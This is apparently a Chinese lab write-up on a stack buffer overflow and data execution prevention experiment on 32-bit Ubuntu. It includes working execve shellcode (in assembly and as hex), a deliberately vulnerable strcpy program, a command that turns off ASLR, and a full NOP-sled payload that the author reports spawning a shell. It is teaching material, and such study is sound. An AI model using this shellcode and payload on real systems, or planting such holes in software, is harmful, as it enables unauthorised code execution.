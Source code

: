 ### 缓冲区溢出与数据执行保护DEP实验

#### 实验环境

虚拟机：VMware16.1.0

操作系统：Ubuntu 18.04

内核：5.4.0-146-generic

#### 原理

由于堆栈是由内存高地址向内存低地址方向增长，而数组的变量是从内存低地址向高地址方向增长。如果没有对数据的越界进行检查和限制，通过向程序的数组缓冲区写入超出其长度的内容，覆盖堆栈原来的返回地址，就会造成缓冲区溢出，从而破坏程序的堆栈。如果构造特殊的注入向量覆盖返回地址，使程序转而执行恶意代码，就达到攻击的目的。
![image-20230414202156113](pic/image-20230414202156113.png)

#### 编写shellcode

为了得到一个shell，需要使用`sys_execve`系统调用，系统调用号在 IA-32 中为 11(0xb)，在x86-64 中为 59(0x3b)。对应C语言中的系统函数`int execve(const char *filename, char *const argv[ ], char *const envp[ ])`，用于在一个进程中启动新的程序。它的第一个参数是指程序所在的路径，第二个参数是传递给程序的参数，数组指针`argv`必须以程序filename开头，NULL结尾，最后一个参数为传递程序的新环境变量。

##### shellcode的汇编代码：

```c
#include <stdio.h>
void shellcode(){
	__asm__(
	"xor %eax,%eax\n\t"		// 将eax寄存器异或处理值为0
	"pushl %eax\n\t"		// 将0压入栈，push相当于pushl
	"push $0x68732f2f\n\t"	// 将“//sh”压入栈，//是为了凑4个字节对齐
	"push $0x6e69622f\n\t"	// 将“/bin”压入栈
	"movl %esp,%ebx\n\t"	// 将栈底指针ebx赋值为当前栈顶指针esp，系统调用的第一个参数ebx
	"pushl %eax\n\t"		// 将0压入栈中
	"pushl %ebx\n\t"		// 将字符串“//sh/bin/0”的首地址压入栈中
	"movl %esp,%ecx\n\t"	// 让ecx指向ebx，系统调用的第2个参数ecx中就保持了指针数组的地址
	"cltd\n\t"				// 让eax拓展到edx:eax，即edx设置为0，系统调用的第3个参数为零
	"movb $0xb,%al\n\t"		// 将execve的功能号赋值给eax的低八位
	"int $0x80\n\t"			// 使用软中断进行系统调用
	);
}
int main(int argc, char **argv){
	shellcode();
	return 0;
}
```

编译：

```
gcc -m32 -o shellcode shellcode.c
```

运行效果：

![image-20230413142707878](pic/image-20230413142707878.png)

可以看到，成功获得了shell。

反汇编获得shellcode的16进制代码：

```sh
objdump shellcode -d| less
```

![image-20230414230840134](pic/image-20230414230840134.png)

##### 16进制的shellcode:

```c
#include<stdio.h>
#include<string.h>
int main(){
	char shellcode[]=
		"\x31\xc0\x50\x68\x2f\x2f"
		"\x73\x68\x68\x2f\x62\x69"
		"\x6e\x89\xe3\x50\x53\x89"
		"\xe1\x99\xb0\x0b\xcd\x80";
	void (*fp)(void);
	fp = (void*)shellcode;
	fp();
	return 0;
}
```

编译：

```sh
 gcc -z execstack -m32 -o shellcode shellcode_asm.c
```

运行效果：

![image-20230413144521561](pic/image-20230413144521561.png)

同样获得了shell。

#### 编写可溢出程序

```c++
//filename:escalate.cpp
#include <iostream>  
#include <cstring>  

void vulnerable(char *tmp) {  
    char input[400];  
    strcpy(input,tmp); //copies a malicious string into the character buffer  
}  

int main(int argc, char* argv[]) {  
    if (argc != 2) {
        std::cout << "Usage: ./prog argn";  
        return 1;  
    }  
    vulnerable(argv[1]); //passes our input to the vulnerable function  
    return 0;  
} 
```

函数中的`strcpy()`将直接把`tmp`中的内容copy到buffer中。这样只要`tmp`的长度大于字符数组长度，就会造成buffer的溢出，使程序运行出错。存在像strcpy这样的问题的标准函数还有`strcat()`，`sprintf()`，`vsprintf()`，`gets()`，`scanf()`等。

##### 关闭地址随机化ASLR保护机制：

```sh
sudo sh -c "echo 0 > /proc/sys/kernel/randomize_va_space"
```

##### 测试test.sh：

```sh
g++ escalate.cpp -o escalate -m32 -fno-stack-protector -z execstack
gdb -q --args ./escalate `python -c 'print "A"*412 + "BCDE"'`
```

1.编译程序：

- -z execstack：关闭栈保护执行，即栈内的数据页可以作为指令执行
- -fno-stack-protector：禁用栈保护canary，如果启用栈保护后，函数开始执行的时候会先往栈里插入cookie信息，当函数真正返回的时候会验证cookie信息是否合法，如果不合法就停止程序运行。攻击者在覆盖返回地址的时候往往也会将cookie信息给覆盖掉，导致栈保护检查失败而阻止shellcode的执行。在Linux中这个cookie信息称为canary。

2.调用gdb调试：测试溢出长度，找出返回地址所在位置。

#### 测试过程

正常运行，无分段错误提示：

![image-20230413161930031](pic/image-20230413161930031.png)

分段错误提示：

![image-20230413153545814](pic/image-20230413153545814.png)

分段错误提示，返回地址`0x45444342`，正好对应`EDCB`的ASCII码，即字符串中的`BCDE`正好占据了返回地址所在的位置：

![image-20230413153408978](pic/image-20230413153408978.png)

------

更新：

确定返回地址的位置：

![image-20230425105447212](pic/image-20230425105447212.png)

------

现在需要我们更换返回地址到一个希望它开始执行的地方，通过`x/32z $esp`命令（配合enter键）查看栈中的数据，找到字符A（对应41）起始位置附近：

![image-20230413213802191](pic/image-20230413213802191.png)

所需参数字符串共416字节，shellcode代码占24字节，返回地址占4字节，前面的符号用`\x90`即NOP命令代替。这样做，一旦启动可以一直执行空指令直到后面的shellcode代码，此时返回地址只需要指向任意一个NOP即可，故`0xffffd174`便是一个理想的返回地址。

更新参数字符串：

```sh
gdb -q --args ./escalate `python -c 'print "\x90"*388 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80"+"\x74\xd1\xff\xff"'`
```

运行效果：

![image-20230414212421564](pic/image-20230414212421564.png)

成功获得shell。

去掉编译选项`-z execstack`即开启数据执行保护机制后，无法跳转执行shellcode：

![image-20230414220500477](pic/image-20230414220500477.png)

#### 注意

在gdb之外运行时，返回地址失效：

![image-20230414224331126](pic/image-20230414224331126.png)

多次测试可以找到新的返回地址，NOP指令越多，找到新的返回地址越容易：

![image-20230414224215000](pic/image-20230414224215000.png)

同时，上述操作尝试获取root权限的shell失败。(其他人好像都行，原因暂未发现，可告知1766237780@qq.com)

root执行下可以获得root权限的shell：

![image-20230414221847748](pic/image-20230414221847748.png)